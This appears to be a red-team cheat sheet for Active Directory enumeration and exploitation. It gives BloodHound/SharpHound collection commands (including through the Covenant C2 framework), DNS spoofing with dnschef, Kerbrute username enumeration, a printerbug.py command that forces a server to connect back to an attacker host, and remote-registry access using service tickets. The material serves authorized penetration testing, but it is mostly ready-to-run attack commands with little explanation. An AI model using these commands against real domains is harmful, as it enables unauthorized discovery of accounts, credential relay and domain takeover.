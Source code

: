 # Domain Enum & Exploitation

### Bloodhound

#### Standalone

```text
Sharhound.exe -c all,gpolocalgroup
```

#### Via Covenant

```text
Assembly /assemblyname:"winsrv" /parameters:"\"-c All GPOLocalGroup\""
```

#### Via Impacket

```text
bloodhound-python -c all -u <user> -p <password> -d <domain> -dc <> -ns <optional nameserver>
```

Sometimes this results in a dns timeout, in this case we can use dnschef.py:

```text
sudo sh -c 'python3 dnschef.py --fakeip <dc ip> --fakedomains <domain> -q'
```

### ACLight

[ACLight ](https://github.com/cyberark/ACLight)is a great script that finds high privileged accounts by using PowerView and then creates a report.

### Find OS Versions

```text
[Get-ADComputer -Filter {(OperatingSystem -like '*Server 2012*')} -Properties * | sort-Object | Select-Object DNSHostName, IPv4Address, whenCreated, OperatingSystem]
```

### Userenum

#### Kerbrute

```text
kerbrute userenum -d <domain> <userlist> --dc <>
```

### Printerbug

Explore a flaw in msrpc to get a connect back from a vulnerable server via [printerbug.py](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py):

```bash
python printerbug.py <domain>/<user>@<rhost> <lhost>
```

### Read Remote Registry

We can read a remote machines registry with  Service Ticket \(which can be generated with "getST.py" if we have the creds or hash of a user\) and "runas /netonly". This only works if the user we are targeting has a session on the target system \(check in bloodhound\).


